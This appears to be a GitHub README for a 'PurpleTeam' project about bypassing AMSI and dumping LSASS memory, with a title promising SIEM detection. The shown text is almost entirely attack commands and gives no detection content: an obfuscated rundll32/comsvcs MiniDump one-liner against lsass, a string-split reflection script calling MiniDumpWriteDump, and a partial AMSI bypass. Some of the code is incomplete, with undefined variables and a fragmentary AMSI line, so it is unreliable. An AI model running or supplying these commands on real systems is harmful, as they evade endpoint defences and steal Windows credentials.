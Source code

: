 # PurpleTeam
Execution Bypass AMSI and Lsass Dump Attacks and detection by SIEM

Bypass AMSI
-
Run file in powershell and then execute below command :
'AmsiUtils'

Lsass Dump via mini dump needs to run as admin access

Method 1 to Lsass Dump:
-
Minidump.exe <lsass PID>


Method 2 to lsass Dump:
-
&$env:???t??r???\*2\r[t-u]???[k-l]?2* $(gi $env:???t??r???\*2\c?m?[v-w]*l | % {$_.FullName }), `#-999999999999999999999999999999999999999999999999999999999999999999999999999999999976-decoy $(gps l?a*s).id c:\parastoo.tmp full; Wait-Process -Id (Get-Process rundll32).id ; (Get-Item -Path c:\dmp.tmp).Encrypt();


Method 3 to Lsass Dump:
-
1-Crete temp folder in drive C:

2-Execute below commands in powershell

$S = "C:\temp"
$P = (Get-Process lsass)
$A = [PSObject].Assembly.GetType('Syst'+'em.Manage'+'ment.Autom'+'ation.Windo'+'wsErrorRe'+'porting')
$B = $A.GetNestedType('Nativ'+'eMethods', 'Non'+'Public')
$C = [Reflection.BindingFlags] 'NonPublic, Static'
$D = $B.GetMethod('MiniDum'+'pWriteDump', $C) 
$F = New-Object IO.FileStream($PDP, [IO.FileMode]::Create)
$R = $D.Invoke($null, @($P.Handle,$G,$F.SafeFileHandle,[UInt32] 2,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero))
$F.Close()



https://github.com/ParastouRazi/PurpleTeam/assets/85788536/f031c264-c4f9-4fcb-8bee-17badf0866b0



See below link to view execution 

https://www.youtube.com/watch?v=Nfh9EEJ8wcw
-




